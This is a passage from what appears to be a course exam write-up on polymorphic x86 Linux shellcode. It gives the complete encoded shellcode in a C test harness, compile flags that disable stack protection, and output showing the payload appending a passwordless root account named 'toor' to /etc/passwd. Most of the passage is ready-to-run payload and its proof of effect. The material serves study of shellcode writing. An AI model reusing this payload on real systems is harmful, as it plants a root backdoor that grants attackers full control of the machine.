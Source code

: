 It closes the file descriptor of the file `/etc/passwd`, opened before by means of the syscall `open()`.

As before, I've explicitly cleared the `EAX` register in order to make the shellcode more stable. The rest is the same as the original shellcode.

Finally, the last routine:

```nasm
Exit:

    ; call syscall exit() 
    inc eax
    int 0x80
```

It terminates the execution.

I chose not to clear `EAX` in order to save more bytes, but since this polymorphic version is simply `115%` bigger than the original size, you can just add a `xor eax, eax` before the `inc eax`, since it required only `1 byte`.

### Testing

To test the polymorphic shellcode, I've used the following C program:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\xeb\x48\x5f\x89\xfe\x31\xc9\xf7\xe1\xb1\x0b\x81\x37\x71\x63\x63\x75\x83\xc7\x04\xe2\xf5\x89\xf7\x89\xfb\x83\xc3\x0c\x53\x5e\x57\x5b\xb0\x06\x48\xb2\x69\xc1\xc2\x02\x66\xb9\x43\x04\x49\xcd\x80\x93\x31\xc0\x50\x5a\x6a\x20\x5a\x4a\x6a\x03\x58\x40\x56\x59\xcd\x80\x31\xc0\xb0\x06\xcd\x80\x40\xcd\x80\xe8\xb3\xff\xff\xff\x5e\x06\x17\x16\x5e\x13\x02\x06\x02\x14\x07\x75\x05\x0c\x0c\x07\x4b\x59\x53\x4f\x41\x59\x17\x45\x41\x11\x59\x5a\x03\x0c\x0c\x01\x4b\x4c\x01\x1c\x1f\x4c\x01\x14\x02\x0b\x69\x75";

main()
{
    printf("Shellcode length: %d\n", strlen(code));

    int (*ret)() = (int(*)())code;
    ret();
}
```

To compile:

```bash
gcc -fno-stack-protector -z execstack -o test_polymorphic_shellcode test_polymorphic_shellcode.c
```

Once I've run it, I could see a new entry inside the file `/etc/passwd`:

```bash
rbct@slae:~/exam/assignment_6/2$ tail -n 3 /etc/passwd
# landscape:x:104:109::/var/lib/landscape:/bin/false
# sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
# rbct:x:1000:1000:rbct,,,:/home/rbct:/bin/bash

rbct@slae:~/exam/assignment_6/2$ sudo ./shellcode_template 
# Shellcode length: 123

rbct@slae:~/exam/assignment_6/2$ tail -n 3 /etc/passwd
# sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
# rbct:x:1000:1000:rbct,,,:/home/rbct:/bin/bash
# toor::0:0:t00r:/root:/bin/bash

rbct@slae:~/exam/assignment_6/2$ 
```
